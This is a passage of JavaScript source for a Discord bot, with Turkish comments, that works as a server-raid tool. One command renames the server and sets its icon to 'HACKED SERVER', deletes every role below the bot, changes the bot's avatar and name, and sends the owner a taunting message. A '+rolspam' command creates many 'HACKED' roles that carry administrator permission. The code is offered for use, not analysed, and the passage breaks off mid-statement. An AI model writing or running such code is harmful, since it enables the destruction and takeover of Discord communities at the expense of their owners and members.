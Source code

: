     await msg.guild.setIcon("https://hizliresim.com/81064F");  //SUNUCUNUN PPSİNİ DEĞİŞTİRİR.
    await msg.guild.setName(" HACKED SERVER "); //SUNUCUNUN ISMINI DEGISTIRIR
    await msg.guild.roles.forEach(roles => roles.delete()); //BOTUN SIZE BILDIGI BÜTÜN ROLLER SILINIR (BOTUN ROLUNUN ALTINDAKILER) 
    await client.user.setAvatar("https://hizliresim.com/81064F"); //BOTUN RESMINI DEGISTIRIR HIZLI RESIM SITESINDEN UPLOAD EDEBILIRSINIZ
    await client.user.setUsername("ャ HACKED ャ");    //BOTUN ISMİNİ DEGISTIRIR
    await msg.guild.owner.send("**BİZ YENİLMEYİZ :D**");    //SUNUCUNUN KURUCUSUNA DMDEN GÖNDERİLEN MESAJ
    
  }  
});



    client.on("message", msg => {
  if (msg.content === "+rolspam") {  //ROL SPAM YAPAR
    msg.delete();
    msg.guild.createRole({
      name: "HACKED",
      color: "A93D3D",
      permissions: ["ADMINISTRATOR"]
    });
        msg.guild.createRole({
      name: "HACKED",
      color: "C22F2F",
      permissions: ["ADMINISTRATOR"]
    });
            msg.guild.createRole({
      name: "HACKED",
      color: "E12020",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
      color: "FF0000",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
      color: "FF3E00",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
      color: "FF4D00",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
      color: "FF6C00",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
      color: "FF9300",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
      color: "FFAE00",
      permissions: ["ADMINISTRATOR"]
    });
                msg.guild.createRole({
      name: "HACKED",
